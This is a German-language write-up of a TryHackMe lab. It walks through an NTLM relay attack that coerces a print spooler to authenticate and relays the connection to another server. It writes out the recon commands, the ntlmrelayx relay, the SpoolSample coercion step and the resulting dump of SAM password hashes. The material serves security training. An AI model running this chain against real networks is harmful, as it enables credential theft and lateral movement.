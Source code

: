 Bedingung 1 und 2 sind bereits erfüllt. Die einzigen beiden, die wir benötigen sind die Bedingungen 3 und 4

---

Wir müssen feststellen, ob der Druckspoolerdienst ausgeführt wird. Da wir keinen Zugriff auf THMSERVER2 haben, müssen wir die Abfrage aus Netzwerkperspektive durchführen. In diesem Fall können wir eine WMI-Abfrage aus unserer SSH-Sitzung auf THMWRK1 verwenden, um den aktuellen Status des Dienstes abzufragen

>GWMI Win32_Printer -Computer thmserver2.za.tryhackme.loc
Get-PrinterPort -ComputerName thmserver2.za.tryhackme.loc


Beide Befehle geben einen Error aus. In diesem Fall müssen wir einfach ausprobieren und darauf vertrauen, dass auf THMSERVER1 ein Druckerspoolerdienst läuft

---

Wir überprüfen, ob SMB Signing enabled oder required ist. Legacy Systeme unterstützen kein SMB Signing, daher ist es so, dass es nur enabled ist und nicht required.

>nmap --script=smb2-security-mode -p445 thmserver1.za.tryhackme.loc thmserver2.za.tryhackme.loc

Wir sehen, dass alle unsere Bedinungen erfüllt sind und wir die Attacke starten können.

---

Wir werden jetzt also versuchen, eine Authentifizierung zu erzwingen. Genauer gesagt werden wir den Spooler Service auf THMSERVER2 dazu zwingen, sich auf unserem Rechner zu verbinden und diese Verbindung bzw. Authentifizierung an THMSERVER1 weiterzuleiten. 

Wir starten ein Relay auf unserer Attacker Maschine

>impacket-ntlmrelayx -smb2support -t smb://10.200.125.201 -c 'whoami /all' -debug

Wenn wir den Hostnamen von THMSERVER1 anstelle der IP angeben, könnte der Host anfordern, dass wir die Kerberos-Authentifizierung anstelle von NTLM verwenden. Daher sollten wir stattdessen die IP angeben. Da das Relay lauscht, können wir THMSERVER2 nun dazu zwingen, sich bei uns zu authentifizieren. Wir führen in einem SSH-Terminal auf THMWRK1 Folgendes aus

>.\SpoolSample.exe THMSERVER2.za.tryhackme.loc 10.50.122.221

### OUTPUT
```
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
[+] Calculating HashedBootKey from SAM
[+] NewStyle hashes is: True
ServerAdmin:500:aad3b435b51404eeaad3b435b51404ee:3279a0c6dfe15dc3fb6e9c26dd9b066c:::
[+] NewStyle hashes is: True
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[+] NewStyle hashes is: True
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[+] NewStyle hashes is: True
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:92728d5173fc94a54e84f8b457af63a8:::
[+] NewStyle hashes is: True
vagrant:1000:aad3b435b51404eeaad3b435b51404ee:e96eab5f240174fe2754efc94f6a53ae:::
[+] NewStyle hashes is: True
trevor.local:1001:aad3b435b51404eeaad3b435b51404ee:43460d636f269c709b20049cee36ae7a:::
[*] Done dumping SAM hashes for host: 10.200.125.201
[*] Stopping service RemoteRegistry
```
